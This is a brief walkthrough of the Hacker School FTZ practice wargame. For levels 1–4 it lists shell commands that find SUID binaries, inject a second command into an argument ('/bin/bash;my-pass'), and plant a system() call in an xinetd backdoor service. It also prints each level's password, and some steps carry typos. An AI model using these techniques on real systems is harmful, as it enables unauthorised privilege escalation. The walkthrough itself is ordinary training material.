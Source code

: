 # TITLE : hacker School FTZ 
```
IP : 192.168.0.6

Q.unkown terminal "xterm-256color"
: export TERM=xterm


```

# 2020's Kali linux ssh access command
```
ssh -c aes128-cbc level@IP

```

# WalkThrough

***level1***

```
1. cat hint
2. find / -perm -4000 -user -level2 2>/dev/null
3. /bin/ExecuteMe
4. bash
5. get the level2 password
6. level2 password id "hacker or cracker"
```

***leve2***
```
1. cat hint
2. find / -perm -4000 -user -level3 2>/dev/null
3. /usr/bin/editor
4. /usr/bin/editor ~/public_html/inedx.html
5. get the level2 password command is : my-pass
6. level3 password id "can you fly?"
```

***leve3***
```
1. cat hint
2. find / -perm -4000 -user -level4 2>/dev/null
3. /bin/autodig
4. /usr/bin/autodig "/bin/bash;my-pass"
5. get the level2 password command is : my-pass
6. level4 password id "suck my brain"
```

***leve4***
```
1. cat hint
2. cd /etc/xinet.d/ , cat backddor , cd /home/level4/tmp/
3. system("my-pass") by c >> backdoor
4. finger @localhost
5. level5 password id "what is your name?"
```

